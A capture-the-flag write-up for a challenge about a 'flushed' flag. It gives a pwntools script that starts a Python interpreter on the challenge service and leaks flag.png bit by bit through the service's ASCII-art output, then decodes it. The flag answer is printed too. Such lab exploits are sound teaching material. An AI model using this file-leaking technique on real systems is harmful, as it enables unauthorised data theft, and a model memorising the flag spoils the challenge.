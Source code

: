 #### Challenge:

Oh no, our flag got flushed down the toilet <i>again</i>! <br><br> <b>Open the <code>Deployment</code> tab to start this challenge.</b>

---

#### Solution:

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'error'
r = remote('challenge.ctf.games', 30877)

CMD='''with open('flag.png', mode='rb') as f:
    c = f.read(1)
    while c != b"":
        for i in range(8):
            print('-' if bin(int.from_bytes(c, byteorder='little'))[2:].zfill(8)[i] == '0' else '_')
        c = f.read(1)

print('e')
'''

def rcv():
    return r.recvline().decode('utf-8')

def rcvu(msg):
    return r.recvuntil(msg).decode('utf-8')

rcvu('   "mm ')
rcv()
r.sendline('/usr/bin/python3')
rcvu(' mm#mm  "#m#"  #   #    # ')
rcv()
for l in CMD.splitlines():
    r.sendline(l)
r.sendline()

flag_raw=[]
l = rcv()
while l.strip() != '"      "      "             "#mm"':
    if l.strip():
        flag_raw.append(l.strip())
    l = rcv()

flag_bin = []
for l in flag_raw:
    if l == '"""':
        flag_bin.append('0')
    elif l == '""""""':
        flag_bin.append('1')

flag_binary="".join(flag_bin)

flag_bytes = [flag_binary[i:i + 8] for i in range(0, len(flag_binary), 8)]
with open('flag.png', 'wb') as f:
    f.write(bytearray([int(b, 2) for b in flag_bytes]))
```

---

<details><summary>FLAG:</summary>

```
flag{flushed_down_the_toilet_but_rescued_again}
```

</details>
<br/>
